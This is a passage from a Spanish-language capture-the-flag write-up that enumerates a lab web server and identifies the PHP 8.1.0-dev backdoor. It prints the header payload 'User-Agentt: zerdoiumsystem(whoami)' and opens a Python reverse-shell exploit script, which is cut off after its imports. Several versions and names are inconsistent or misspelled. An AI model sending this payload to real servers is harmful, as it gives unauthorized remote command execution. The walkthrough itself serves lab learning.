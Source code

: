 <br>

### WhatWeb
Procederemos a lanzar un [WhatWeb](https://github.com/urbanadventurer/WhatWeb) al servicio HTTP para ver si nos reporta algún parámetro de interés:

```bash
File: whatWeb

http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.42 (Ubunut)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Vemos que el servidor web nos reporta bastante información, entre otros la versión del servidor web y la versión de PHP bajo la que corre. 

<br>

## Shell de usuario

### Enumeración
Procederemos a buscar vulnerabilidades conocidas para las versiones que corre el servidor web. Para ello usaremos la herramienta [SearchSploit](https://github.com/offensive-security/exploitdb) que nos permitirá buscar en https://www.exploit-db.com/ desde la línea de comandos.

Buscaremos la versión de PHP en searchsploit:

```bash
searchsploit php 8.1.0-dev
```

<br>

<img src="https://i.imgur.com/IsnNwKE.png" width=400>

Veremos que tenemos un exploit para conseguir ejecución remota de comandos en la version de PHP con la que contamos. Procederemos a analizarlo y veremos que el exploit consiste en un backdoor que se introdujo en ciertas vesiones de PHP. Bastará con enviar una cabecera determinada al servidor web, que nos permitirá ejecutar comando a nivel de sistema. La cabecera tendrá el siguiente formato:

```plaintext
User-Agentt: zerdoiumsystem(whoami);
```

<br>

### Exploiting
Nos construiremos un script con [Python3](https://www.python.org/downloads/) que nos permitirá explotar esta vulnerabilidad y que nos enviará una reverse shell:

```python
File: php-8.0.1-dev_backdoor.py

#!/usr/bin/python3
#coding: utf-8


# PHP 8.0.1-dev Backdoor
# Author: Gaizka Martin (a.k.a g2jz)


import requests
import sys


s = requests.Session() 

```